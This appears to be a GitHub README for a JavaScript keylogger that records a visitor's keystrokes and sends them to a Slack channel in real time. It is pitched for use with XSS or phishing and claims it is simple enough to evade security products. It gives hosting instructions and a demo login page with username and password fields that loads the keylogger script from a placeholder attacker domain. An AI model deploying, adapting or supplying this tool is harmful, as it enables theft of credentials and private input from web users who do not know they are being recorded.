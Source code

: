 # JS_KeyLogger_to_Slack
To be used with XSS or Phishing to Get Real-Time Keyboard Input Without Waiting for or Controlling Form Submission!

# Description
I wanted to improve upon my XSS API by adding support for capturing all keystrokes by the end user and sending them to a Slack channel for real time monitoring.  This allows for a quicker response to phishing attacks and more information than what's provided by POSTing an HTML form.  It's also more simple that BeEF so it hopefully won't get picked up by any security products!  Because we don't want to flood the Slack Channel or API by submitting each character at a time, we wait until the "Enter/Return" key is pressed or at Mouse click.  I figure this is most likely after a user is finished entering data into an input field somewhere on the page.

# Instructions

Simply host the Keylogger client-side JavaScript (kl.js) on a webserver that's publicly accessible, or embed it directly within your HTML.  If hosting it, simply call it like you would any JS with `<script src="https://YOUR_DOMAIN_HERE/kl.js"></script>`.

Host the Keylogger server-side PHP API (kl.php) on your web server and be sure to edit the variables to point to your Slack Channel via a Webhook.

# Demo

Test it out with something as simple as this : 

```
<HTML>
<BODY>
<SCRIPT SRC="https://YOUR_DOMAIN_HERE/kl.js">
</SCRIPT>
<CENTER>
<H2>JS Phishing/XSS Keylogger to Slack!</H2>
<B>Note: </B>Try typing anywhere and then click the mouse or hit Enter/Return on your keyboard
<BR><BR>
<TABLE>
<TR><TH>Username</TH><TH>Pass</TH></TR>
<TR><TD><INPUT TYPE="text" VALUE="" NAME="User"></TD><TD><INPUT TYPE="password" VALUE="" NAME="Pass"></TD></TR>
</TABLE>
<BUTTON TYPE="button">SUBMIT</BUTTON>
</CENTER>
</BODY>
</HTML>
```

<p align="center"><img align="center" alt="Client Example" src="https://s22.postimg.cc/nk5u28dep/Capture.png">
  <b><br>Figure 1: Client Example</b></p>



<p align="center"><img align="center" width="400" alt="Watching in Slack" src="https://s22.postimg.cc/4rtyynoq9/Capture2.png">
<b><br>Figure 2: Watching in Slack</b></p>
